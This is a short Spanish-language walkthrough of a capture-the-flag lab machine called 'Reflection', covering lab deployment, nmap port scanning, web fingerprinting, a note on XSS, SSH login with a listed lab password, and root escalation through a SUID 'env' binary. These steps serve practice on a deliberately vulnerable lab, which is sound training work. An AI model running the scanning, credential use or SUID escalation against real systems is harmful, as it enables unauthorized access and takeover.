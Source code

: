 - Tags: #Reflection
---
[Maquina Reflection](https://mega.nz/file/SAtzAKLL#3ITizYrmaj4-aP1AyjuzHGMoZuSGeiO8lcfIMBOzaqk) -> Enlace de descarga al laboratorio

```bash
7z x reflection.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh reflection.tar # Desplegamos el laboratorio
```
### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectivida con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Usamos nuestra herramienta
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos.
extractPorts allPorts # Parseamos la informaciion mas relevante del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar la version y el servicio que corren detras de estos puerots.
```

**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** -> Tenemos un servicio ssh expuesto
**( 80/tcp open  http    Apache httpd 2.4.62 ((Debian)) )** -> Tenemos un servicio web expuesto

### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2 # Enumeramos las tecnologias de este servicio.
```

**( http://172.17.0.2 )** -> Direccion ip del servicio desplegado.

### Fase Deteccion XSS:
**Nota** -> La web es vulnerable a **( XSS Reflejado y Almacenado )**

### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh balu@172.17.0.2 # Passoword: ( balulero )  
```

### Fase Escalda Privilegios:
```bash
find / -perm -4000 2>/dev/null # Tenemos un binario potencial para escalar privilegios.
/usr/bin/env
```

```bash
/usr/bin/env /bin/bash -p # Logramos elevar privilegios.
```